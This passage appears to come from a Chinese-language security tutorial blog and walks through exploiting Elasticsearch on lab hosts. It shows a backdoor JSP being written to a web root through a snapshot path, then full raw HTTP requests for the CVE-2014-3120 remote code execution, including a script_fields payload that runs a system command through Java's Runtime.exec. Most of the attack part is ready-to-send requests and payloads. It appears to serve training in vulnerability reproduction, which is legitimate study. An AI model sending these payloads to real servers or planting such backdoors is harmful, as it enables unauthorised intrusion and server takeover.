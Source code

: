 ```plain
}'
```

![1649482880973-309848c0-d2f7-4a5d-bd62-9de7963c269b.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134220667-751795007.png)

```plain
3、访问8080端口snapshot-yz.jsp文件写入代码到test.jsp中
http://123.58.236.76:31620/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success
success是需要写入的后门
http://123.58.236.76:31620/wwwroot/test.jsp
```

RCE执行

```plain
-Elasticsearch RCE CVE-2014-3120
1、漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据


抓包，替换一下数据包：
POST /website/blog/ HTTP/1.1
Host: 123.58.236.76:58532
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "xiaodi"
}
```

![1649483650643-430faf95-dd5d-4370-ab75-1bf68cb459e5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134220762-377931956.png)

```plain
2、直接发包触发执行命令

POST /_search?pretty HTTP/1.1
Host: 123.58.236.76:58532
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```